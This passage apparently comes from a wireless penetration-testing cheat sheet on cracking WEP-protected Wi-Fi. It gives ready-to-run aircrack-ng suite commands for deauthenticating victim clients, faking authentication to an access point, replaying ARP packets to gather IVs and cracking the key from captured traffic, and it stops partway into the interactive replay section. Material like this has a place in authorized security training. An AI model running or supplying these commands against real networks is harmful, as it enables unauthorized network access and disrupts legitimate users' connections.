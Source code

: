> Force ARP packet to be sent.

```powershell
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
    * -0 : 1 deauthentication, 0 unlimited
	> Sending 64 directed DeAuth.
```

#### ARP Replay Attack

Video: wifu-20.mp4 The attack listens for an ARP packet and then retransmits it back to the access point. This, in turn, causes the AP to repeat the ARP packet with a new IV. By collecting enough of these IVs Aircrack-ng can then be used to crack the WEP key.

```powershell
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0
	* ATTACKER_MAC if fake authentication launched
	* CONNECTED_MAC if a client is associated

# –x 1000 –n 1000 ?
# aireplay-ng -3 –x 1000 –n 1000 –b $AP_MAC -h $ATTACKER_MAC wlan0mon
# wait for ARP on the network
# alternatively you can de-auth some clients

aircrack-ng –b <BSSID> <PCAP_of_FileName>
aircrack-ng -0 wep1.cap
    * -0 : colored output
```

### Cracking WEP via a Client

#### ARP Request Replay Attack

> Attack the ACCESS POINT

```powershell
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng mon0 -c 3 --bssid $AP_MAC -w arpreplay # dump traffic

# Fake authentication for a more reliable attack
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# ARP replay attack
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0

# Deauthentication
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# Cracking
aircrack-ng arpreplay.cap
```

#### Interactive replay attack

> Attack a client to force new packets 0841 attack, or interactive packet replay is a WEP attack that allows for packet injection when ARP replay is not available/working.
